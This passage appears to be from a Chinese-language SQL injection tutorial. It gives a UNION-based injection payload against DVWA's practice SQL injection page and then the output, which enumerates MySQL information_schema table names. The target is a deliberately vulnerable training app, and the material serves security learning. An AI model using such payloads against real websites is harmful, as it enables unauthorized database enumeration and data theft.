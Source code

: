 ```

上述信息可以通过SQL注入来实现。

例如dvwa中盲注sql页例子：```1' union select table_name ,1 from information_schema.tables where '1'='1```
结果如下：
```
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: admin
Surname: admin
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: CHARACTER_SETS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLLATIONS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLLATION_CHARACTER_SET_APPLICABILITY
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLUMNS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLUMN_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: ENGINES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: EVENTS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: FILES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: GLOBAL_STATUS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: GLOBAL_VARIABLES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: KEY_COLUMN_USAGE
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PARTITIONS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PLUGINS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PROCESSLIST
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PROFILING
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: REFERENTIAL_CONSTRAINTS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: ROUTINES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SCHEMATA
Surname: 1